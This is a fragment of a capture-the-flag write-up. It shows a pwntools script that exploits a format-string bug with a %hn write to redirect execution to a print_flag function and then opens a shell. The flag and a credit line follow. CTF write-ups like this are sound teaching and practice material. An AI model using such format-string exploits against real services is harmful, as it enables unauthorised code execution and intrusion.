 ```python
p.recvuntil("shop")
short = (print_flag + 0x1) & 0xffff
target = rbp - 8
# write short to target
p.sendline(f"%{short:05}c%10$hnAAA".encode() + p64(target))

p.interactive()
```

After we get the shell, the flag is found at `/flag.txt`: `brunner{these_people_need_to_get_better_at_security}`.

Credits to @Rosayxy.
